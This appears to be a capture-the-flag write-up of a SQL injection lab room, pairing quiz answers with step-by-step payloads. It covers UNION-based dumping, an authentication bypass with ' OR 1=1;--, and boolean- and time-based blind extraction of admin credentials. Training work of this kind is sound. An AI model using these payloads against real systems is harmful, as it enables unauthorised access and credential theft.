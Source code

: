 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

		#### `Task 1: Brief`
##### - What does SQL stand for?
	- Structured Query Language
	
	
		#### `Task 2: What is a Database?`
##### - What is the acronym for the software that controls a database?
	- DBMS
##### - What is the name of the grid-like structure which holds the data?
	- Table
	

		#### `Task 3: What is SQL?`
##### - What SQL statement is used to retrieve data?
	- SELECT
##### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
##### - What SQL statement is used to add data?
	- INSERT


		#### `Task 4: What is SQL Injection?`
##### - What character signifies the end of an SQL query?
	- ;


		#### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will be able to find the username and password, then you can proceed inputting it in the login form and you will get the flag in the next page.



		#### `Task 6: Blind SQLi - Authentication Bypass`
The next one is basically bypassing the authentication with the help of simple SQL injection,
In the login form you can basically input any username you want but in the password section I used- 
```
' OR 1=1;--
```
This means that the server will receive the payload as an true statement and will proceed to login the account.



		#### `Task 7: Blind SQLi - Boolean Based`
This task will have an indicator when the characters that are being type are equal to the actual name of the database,table or column.
When the application will return true that means that you are typing the correct character or number. 

Firstly, we will use this code and it will return true since there are three columns in that table.
```
admin123' UNION SELECT 1,2,3;-- 
```
Then, we will guess for the correct database name for us to exploit the database.
```
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
admin123' UNION SELECT 1,2,3 where database() like 'sql%';--
```
By doing this cycle as much as possible the indicator will return true, so that we will know if we are getting the exact name for the database.
Then after we get the actual name of the database we will now search for the table name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'us%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'use%';--
```
After that we will now proceed getting the column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'id%';--
```
But we did find the other column name that is `id` and it is just basically nonsense for us so we will ignore it and continue finding other column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'passwo%' and COLUMN_NAME !='id';--
```
After we find the two column name that seems valuable to us which is `username` and `password` then we will now proceed to find the row or data in that column.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'ad%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then for the password-
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '38%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '384%';--
```



		#### `Task 8: Blind SQLi - Time Based`
This is the same as the previous task but instead it will use the time to indicate that you are getting the exact characters for the actual name in the database.
First, we will test the application by using this code-
```
admin123' UNION SELECT SLEEP(5),2;--
```
After we know that the SLEEP command works, it represents that it is vulnerable to that attack.
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sq%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sql%';--
```
Then after several try I found that the database name is `sqli_four`, then we will continue finding the table name.
Actually I just used the same command from previous task but just changing some code in there.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'us%';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'use%';--
```
Then I found that the table name is `users` and by knowing that we can now proceed to find the columns in that table.
Again, I used the same command from the previous task just doing some modifications.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'user%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passw%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passwor%' and COLUMN_NAME !='id';--
```
We now know that in the `users` table we have `username` and `password` column sitting in there.
Then, we will now find the actual row or data that the columns contain.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then
```
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%1';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '49%1';--
```
After a few try we now know the correct username and password. `admin:4961`



		#### `Task 9: Out-of-Band SQLi`
##### - Name a protocol beginning with D that can be used to exfiltrate data from a database.
	- DNS



		#### `Task 10: Remediation`
##### - Name a method of protecting yourself from an SQL Injection exploit.
	- Prepared Statements
